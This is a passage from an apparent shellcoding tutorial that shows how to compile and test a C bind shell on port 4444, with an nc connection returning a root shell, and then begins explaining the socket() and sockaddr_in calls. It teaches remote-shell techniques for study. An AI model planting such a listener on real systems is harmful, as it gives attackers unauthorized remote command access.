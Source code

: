 ### Compiling C Bind Shell
```console
root# gcc basicBindShell.c -o basicBindShell
```

### Testing Our Shellcode in the Host Program
#### Terminal Window 1
```console
root# ./basicBindShell
```
#### Terminal Window 2
```console
root# netstat -tanlp | grep basicBind
tcp   0   0 0.0.0.0:4444    0.0.0.0:*   LISTEN    31804/basicBindShell
root# nc.traditional 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root)
```
Awesome! It works. Lets dive into these C functions and how they work.

### 1. Create a new Socket
Our first function is `socket()`. We already know that this function is used to create a new socket.   
To find out more about this function we will use the command `man 7 socket` from our linux terminal.  
```console
man 7 socket
  int socket(int domain, int type, int protocol);
```
Our requirements, for our bind shell, are that at Layer 3 we use the IP version 4 Protocol, and at Layer 4 we use the Transmission Control Protocol (TCP).  
After reviewing the `socket()` man pages, we discover we will need to fufill the following arguements.
+ `int domain`   = `AF_INET`
  - IPv4 Internet protocols.
+ `int type`     = `SOCK_STREAM` 
  - Provides sequenced, reliable, two-way, connection-based byte streams (TCP).
+ `int protocol` = `0` 
  - The protocol to be used with the socket. 
  - Normally there is only one protocol per socket type. In this case the protocol value is `0`.

#### Our C function
```c
int ipv4Socket = socket(AF_INET, SOCK_STREAM, 0);
```

### 2. Create a TCP-IP Address for the Socket
Now that our IPv4, TCP socket has been created, we will need to create an address for it. After creating the TCP-IP address, we will bind the address to the socket.  
To create the TCP-IP address (TCP Port Number & IP Address), we will dig into the `ip` man pages with command `man 7 ip`.   
We find this relevant information:
```c
// An IP socket address is defined as a combination of an IP 
//  interface address and a 16-bit port number.
struct sockaddr_in {
  sa_family_t    sin_family; // address family: AF_INET
  in_port_t      sin_port;   // port in network byte order. See "man htons".
  struct in_addr sin_addr;   /* internet address */
 };
```
This is the struct we will need to fufill the third arguement in the above struct.
```c
struct in_addr {
```